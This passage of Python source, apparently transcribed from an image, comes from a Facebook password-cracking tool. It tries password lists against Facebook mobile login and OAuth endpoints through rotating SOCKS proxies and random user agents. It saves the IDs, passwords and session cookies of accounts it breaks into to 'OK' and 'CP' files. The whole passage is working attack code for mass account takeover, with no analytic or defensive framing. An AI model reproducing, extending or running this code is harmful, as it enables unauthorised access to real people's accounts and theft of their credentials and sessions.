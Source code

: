 			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=data,cookies={'cookie': cokz},headers=head,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				idf = ses.cookies.get_dict()["checkpoint"].split("%")[4].replace("3A", "")
				cp+=1
				print(f'\r{P}[{K}DRAGON-CP{P}] : {K}{idf}|{pw}|{ua}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				idf = re.findall('c_user=(.*);xs', kuki)[0]				
				print(f'\r{P}{H}SLLOWLY-OK ⌲{P} = {H}{idf}|{pw}')
				print(f'\r{P}{M2}SLLOWLY-OK ⌲{P} = {H}{kuki}')		        								
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

#---------------------[ METHODE-TOUCH-3 ]---------------------#
def bapi(idf,pwv):
	global loop,ok,cp
	ua = random.choice(ugen)
	ses = requests.Session()
	sys.stdout.write(f"\r{x}[M3] | {P}{loop}{P} | {H}LIVE-{ok} {P}| {K}CHECK-{cp}")
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			link = ses.get('https://m.prod.facebook.com/login.php?skip_api_login=1&api_key=957549474255294&kid_directed_site=0&app_id=957549474255294&signed_next=1&next=https%3A%2F%2Fm.prod.facebook.com%2Fv15.0%2Fdialog%2Foauth%3Fapp_id%3D957549474255294%26cbt%3D1703480924213%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df3d6ea4d4d36434%2526domain%253Dshopee.co.id%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fshopee.co.id%25252Ffe32e52c9db2ec%2526relation%253Dopener%26client_id%3D957549474255294%26display%3Dtouch%26domain%3Dshopee.co.id%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fshopee.co.id%252Fbuyer%252Flogin%253Ffrom%253D%25252F%2526next%253D%25252F%26locale%3Den_US%26logger_id%3Df20ba9fd990d2cc%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df91d6125ecf0e4%2526domain%253Dshopee.co.id%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fshopee.co.id%25252Ffe32e52c9db2ec%2526relation%253Dopener%2526frame%253Df37237bfa722138%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Dpublic_profile%252Cemail%26sdk%3Djoey%26version%3Dv15.0%26refsrc%3Ddeprecated%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df91d6125ecf0e4%26domain%3Dshopee.co.id%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fshopee.co.id%252Ffe32e52c9db2ec%26relation%3Dopener%26frame%3Df37237bfa722138%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr',)
			data = {
'lsd': re.search('name="lsd" value="(.*?)"',str(link.text)).group(1),
'jazoest': re.search('name="jazoest" value="(.*?)"',str(link.text)).group(1),
'm_ts': re.search('name="m_ts" value="(.*?)"',str(link.text)).group(1),
'li': re.search('name="li" value="(.*?)"',str(link.text)).group(1),
'try_number': 0,
'unrecognized_tries': 0,
'email':idf,
'pass':pw,
'login':'Masuk',
'prefill_contact_point': '',
'prefill_source': '',
'prefill_type': '',
'first_prefill_source': '',
'first_prefill_type': '',